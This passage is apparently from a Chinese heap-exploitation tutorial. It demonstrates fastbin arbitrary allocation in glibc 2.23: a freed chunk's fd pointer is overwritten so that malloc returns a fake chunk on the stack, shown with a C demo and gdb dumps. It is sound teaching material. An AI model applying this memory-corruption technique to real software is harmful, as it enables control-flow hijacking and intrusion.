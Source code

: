 ### 演示
這次我們把 fake_chunk 置於棧中稱爲 stack_chunk，同時劫持了 fastbin 鏈表中 chunk 的 fd 值，通過把這個 fd 值指向 stack_chunk 就可以實現在棧中分配 fastbin chunk。
```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;

    void *chunk1;
    void *chunk_a;

    stack_chunk.size=0x21;
    chunk1=malloc(0x10);

    free(chunk1);

    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```
通過 gdb 調試可以看到我們首先把 chunk1 的 fd 指針指向了 stack_chunk
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x00007fffffffde60	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
```
之後第一次 malloc 使得 fastbin 鏈表指向了 stack_chunk，這意味着下一次分配會使用 stack_chunk 的內存進行
```
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000
```
最終第二次malloc返回值爲0x00007fffffffde70也就是stack_chunk
```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70

0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw-
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
```